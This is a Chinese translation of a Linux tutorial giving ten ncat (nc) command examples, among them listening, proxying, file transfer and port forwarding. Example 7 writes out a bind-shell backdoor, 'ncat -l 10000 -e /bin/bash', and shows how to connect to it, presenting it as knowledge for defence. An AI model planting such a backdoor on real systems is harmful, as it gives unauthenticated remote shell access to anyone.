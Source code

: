 ```yaml
---
author: Pradeep Kumar
categories: 技术
comments_data: []
count:
  commentnum: 0
  favtimes: 5
  likes: 0
  sharetimes: 0
  viewnum: 25617
date: '2017-12-31 08:01:00'
editorchoice: false
excerpt: ncat 或者说 nc 是一款功能类似 cat 的工具，但是是用于网络的。它是一款拥有多种功能的 CLI 工具，可以用来在网络上读、写以及重定向数据。
fromurl: https://www.linuxtechi.com/nc-ncat-command-examples-linux-systems/
id: 9190
islctt: true
banner_img: /data/attachment/album/201712/30/001853qeiznzihgh3zghqz.jpg
permalink: /article-9190-1.html
index_img: /data/attachment/album/201712/30/001853qeiznzihgh3zghqz.jpg.thumb.jpg
related: []
reviewer: ''
selector: ''
summary: ncat 或者说 nc 是一款功能类似 cat 的工具，但是是用于网络的。它是一款拥有多种功能的 CLI 工具，可以用来在网络上读、写以及重定向数据。
tags:
- nc
- ncat
thumb: false
title: 10 个例子教你学会 ncat (nc) 命令
titleindex_img: true
translator: lujun9972
updated: '2017-12-31 08:01:00'
---
```


![](/data/attachment/album/201712/30/001853qeiznzihgh3zghqz.jpg)


`ncat` 或者说 `nc` 是一款功能类似 `cat` 的工具，但是是用于网络的。它是一款拥有多种功能的 CLI 工具，可以用来在网络上读、写以及重定向数据。 它被设计成可以被脚本或其他程序调用的可靠的后端工具。同时由于它能创建任意所需的连接，因此也是一个很好的网络调试工具。


`ncat`/`nc` 既是一个端口扫描工具，也是一款安全工具，还能是一款监测工具，甚至可以做为一个简单的 TCP 代理。 由于有这么多的功能，它被誉为是网络界的瑞士军刀。 这是每个系统管理员都应该知道并且掌握它。


在大多数 Debian 发行版中，`nc` 是默认可用的，它会在安装系统的过程中自动被安装。 但是在 CentOS 7 / RHEL 7 的最小化安装中，`nc` 并不会默认被安装。 你需要用下列命令手工安装。



```
[root@linuxtechi ~]# yum install nmap-ncat -y

```

系统管理员可以用它来审计系统安全，用它来找出开放的端口然后保护这些端口。 管理员还能用它作为客户端来审计 Web 服务器、telnet 服务器、邮件服务器等， 通过 `nc` 我们可以控制发送的每个字符，也可以查看对方的回应。


我们还可以用它捕获客户端发送的数据以此来了解这些客户端是做什么的。


在本文中，我们会通过 10 个例子来学习如何使用 `nc` 命令。


### 例子： 1) 监听入站连接


通过 `-l` 选项，`ncat` 可以进入监听模式，使我们可以在指定端口监听入站连接。 完整的命令是这样的：



```
$ ncat -l port_number

```

比如，



```
$ ncat -l 8080

```

服务器就会开始在 8080 端口监听入站连接。


### 例子： 2) 连接远程系统


使用下面命令可以用 `nc` 来连接远程系统，



```
$ ncat IP_address port_number

```

让我们来看个例子，



```
$ ncat 192.168.1.100 80

```

这会创建一个连接，连接到 IP 为 192.168.1.100 的服务器上的 80 端口，然后我们就可以向服务器发送指令了。 比如我们可以输入下面内容来获取完整的网页内容



```
GET / HTTP/1.1

```

或者获取页面名称，



```
GET / HTTP/1.1

```

或者我们可以通过以下方式获得操作系统指纹标识，



```
HEAD / HTTP/1.1

```

这会告诉我们使用的是什么软件来运行这个 web 服务器的。


### 例子： 3) 连接 UDP 端口


默认情况下，`nc` 创建连接时只会连接 TCP 端口。 不过我们可以使用 `-u` 选项来连接到 UDP 端口，



```
$ ncat -l -u 1234

```

现在我们的系统会开始监听 UDP 的 1234 端口，我们可以使用下面的 `netstat` 命令来验证这一点，



```
$ netstat -tunlp | grep 1234
udp           0          0 0.0.0.0:1234                 0.0.0.0:*               17341/nc
udp6          0          0 :::1234                      :::*                    17341/nc

```

假设我们想发送或者说测试某个远程主机 UDP 端口的连通性，我们可以使用下面命令，



```
$ ncat -v -u {host-ip} {udp-port}

```

比如：



```
[root@localhost ~]# ncat -v -u 192.168.105.150 53
Ncat: Version 6.40 ( http://nmap.org/ncat )
Ncat: Connected to 192.168.105.150:53。

```

### 例子： 4) 将 `nc` 作为聊天工具


`nc` 也可以作为聊天工具来用，我们可以配置服务器监听某个端口，然后从远程主机上连接到服务器的这个端口，就可以开始发送消息了。 在服务器这端运行：



```
$ ncat -l 8080

```

在远程客户端主机上运行：



```
$ ncat 192.168.1.100 8080

```

之后开始发送消息，这些消息会在服务器终端上显示出来。


### 例子： 5) 将 `nc` 作为代理


`nc` 也可以用来做代理。比如下面这个例子，



```
$ ncat -l 8080 | ncat 192.168.1.200 80

```

所有发往我们服务器 8080 端口的连接都会自动转发到 192.168.1.200 上的 80 端口。 不过由于我们使用了管道，数据只能被单向传输。 要同时能够接受返回的数据，我们需要创建一个双向管道。 使用下面命令可以做到这点:



```
$ mkfifo 2way
$ ncat -l 8080 0<2way | ncat 192.168.1.200 80 1>2way

```

现在你可以通过 `nc` 代理来收发数据了。


### 例子： 6) 使用 `nc` 拷贝文件


`nc` 还能用来在系统间拷贝文件，虽然这么做并不推荐，因为绝大多数系统默认都安装了 `ssh`/`scp`。 不过如果你恰好遇见个没有 `ssh`/`scp` 的系统的话， 你可以用 `nc` 来作最后的努力。


在要接受数据的机器上启动 `nc` 并让它进入监听模式：



```
$ ncat -l  8080 > file.txt

```

现在去要被拷贝数据的机器上运行下面命令：



```
$ ncat 192.168.1.100 8080 --send-only < data.txt

```

这里，`data.txt` 是要发送的文件。 `-–send-only` 选项会在文件拷贝完后立即关闭连接。 如果不加该选项， 我们需要手工按下 `ctrl+c` 来关闭连接。


我们也可以用这种方法拷贝整个磁盘分区，不过请一定要小心。


### 例子： 7) 通过 `nc` 创建后门


`nc` 命令还可以用来在系统中创建后门，并且这种技术也确实被黑客大量使用。 为了保护我们的系统，我们需要知道它是怎么做的。 创建后门的命令为：



```
$ ncat -l 10000 -e /bin/bash

```

`-e` 标志将一个 bash 与端口 10000 相连。现在客户端只要连接到服务器上的 10000 端口就能通过 bash 获取我们系统的完整访问权限：



```
$ ncat 192.168.1.100 10000

```

### 例子： 8) 通过 `nc` 进行端口转发


我们通过选项 `-c` 来用 `nc` 进行端口转发，实现端口转发的语法为：



```
$ ncat -u -l  80 -c  'ncat -u -l 8080'

```

这样，所有连接到 80 端口的连接都会转发到 8080 端口。


### 例子： 9) 设置连接超时


`nc` 的监听模式会一直运行，直到手工终止。 不过我们可以通过选项 `-w` 设置超时时间:



```
$ ncat -w 10 192.168.1.100 8080

```

这回导致连接 10 秒后终止，不过这个选项只能用于客户端而不是服务端。


### 例子： 10) 使用 `-k` 选项强制 `nc` 待命


当客户端从服务端断开连接后，过一段时间服务端也会停止监听。 但通过选项 `-k` 我们可以强制服务器保持连接并继续监听端口。 命令如下：



```
$ ncat -l -k 8080

```

现在即使来自客户端的连接断了也依然会处于待命状态。


自此我们的教程就完了，如有疑问，请在下方留言。




---


via: <https://www.linuxtechi.com/nc-ncat-command-examples-linux-systems/>


作者：[Pradeep Kumar](https://www.linuxtechi.com/author/pradeep/) 译者：[lujun9972](https://github.com/lujun9972) 校对：[wxy](https://github.com/wxy)


本文由 [LCTT](https://github.com/LCTT/TranslateProject) 原创编译，[Linux中国](https://linux.cn/) 荣誉推出